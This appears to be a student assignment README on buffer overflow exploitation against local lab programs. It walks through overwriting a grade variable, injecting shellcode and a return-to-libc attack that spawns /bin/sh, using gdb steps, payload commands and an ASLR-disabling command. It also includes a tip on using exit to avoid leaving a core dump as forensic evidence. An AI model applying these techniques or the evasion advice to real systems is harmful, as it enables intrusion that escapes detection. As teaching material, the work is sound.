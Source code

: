 # 📘 Overview

This assignment explores exploiting buffer overflow vulnerabilities in two different scenarios:

1. A simple buffer overflow that allows an attacker to execute shellcode.
2. A more advanced buffer overflow using the "return to libc" technique to execute shellcode.

---

## Buffer Overflow Exploit Steps

### Part 1: Changing the Grade

To alter the grade from `6` to any desired value, the buffer must be filled until the memory location of the `grade` variable is reached. A Python script generates a payload to change the grade, and this payload is stored as a binary file named `grade_change.txt`.

To execute the program and change the grade:

```bash
(cat grade_change.txt; cat) | ./Greeter
```

#### Special Case: Grade 10

For grade `10`, the program displays:

```bash
Hello, A...A, your grade is 0
```

Although the intended grade is 10, the program misinterprets the hexadecimal value and prints 0. This happens because the newline character ('\n') in the OS corresponds to the Line Feed (LF) control character, which is 0x0A in hexadecimal. When the program reads the hexadecimal value of the grade, it encounters 0x0A. Since 0x0A is the ASCII representation of the newline character, not a numeric digit, the program either printings  0.

---

### Part 2: Simple Buffer Overflow

1. **Locate the Return Address**  
   Use the `gdb` debugger with a known input string to find the return address. Once identified, calculate the offset to the buffer.I our case, we need 52 bytes until we reach the return address.This can be easily proven by simply running the following code

    ```bash
    python -c 'print("A"*52 + "BCDE")' > tempFile
    ```

    Inside the gdb debugger, run the following command

    ```bash
    r < tempFile
    ```

    The program will crash and you will see the following output

    ```bash
    Program received signal SIGSEGV, Segmentation fault.
    0x45444342 in ?? ()
    ```

    From the previous message it is clear that the program crashed at the address 0x45444342 which is the ASCII representation of the string "BCDE". This means that the return address is 52 bytes away from the start of the buffer.

2. **Find the Address of the Variable `Name`**  
   Since the buffer is non-executable, locate the executable memory address of the variable `Name`:

   ```bash
   p Name
   ```

   Use this address to overwrite the return address and execute the shellcode.

3. **Generate the Payload**  
   A Python script (`Buffer_Attack.py`) creates the payload, resulting in a binary file. Use the following command to run the exploit:

   ```bash
   (cat payload; cat) | ./Greeter
   ```

---

### Part 3: Return to libc Technique

To execute a shell using the "return to libc" technique, construct the following buffer structure:

```bash
| NOP sled | system | return address for system | /bin/sh |
```

#### Steps

1. **Find Function and String Addresses**  
   Use `gdb` to locate necessary addresses:

   ```bash
   break main
   p system
   p exit
   info proc map
   ```

2. **Locate `/bin/sh` String Address**  
   From the output of `info proc map`, identify the libc library and find the offset of the string `/bin/sh`:

   ```bash
   strings -a -t x /usr/lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
   ```

   Combine the libc base address with the offset to compute the final address of `/bin/sh`.

   Example:

    ```bash
   libc base address: 0xf7d72000
   Offset: 0x1b3e9a
   Address of `/bin/sh`: 0xf7f36de8
   ```

3. **Verify the Address**  
   Confirm the computed address in `gdb`:

   ```bash
   x/s 0xf7f36de8
   ```

   The result should display:

   ```bash
   "/bin/sh"
   ```

4. **Generate and Execute the Payload**  
   Use Python to pack the addresses into a binary payload. Execute the program:

   ```bash
   (cat payload_secure; cat) | ./SecGreeter
   ```

   **Note**: In some operating systems, like FreeBSD, a core dump is logged to a specific location, allowing an administrator to detect attempted exploitation of a binary. To avoid detection, we use the `exit` function. This ensures that when the program terminates, no core dump is generated, leaving no trace of your activity.

#### Disable ASLR

For the exploit to succeed, Address Space Layout Randomization (ASLR) must be disabled:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## 🔗 **References**

- [Debugging with gdb](https://sourceware.org/gdb/current/onlinedocs/gdb.pdf)
- [Buffer Overflow with Shellcode](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)
- [Return-to-libc / ret2libc - Part 1](https://css.csail.mit.edu/6.858/2017/readings/return-to-libc.pdf)
- [Return-to-libc / ret2libc - Part 2](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)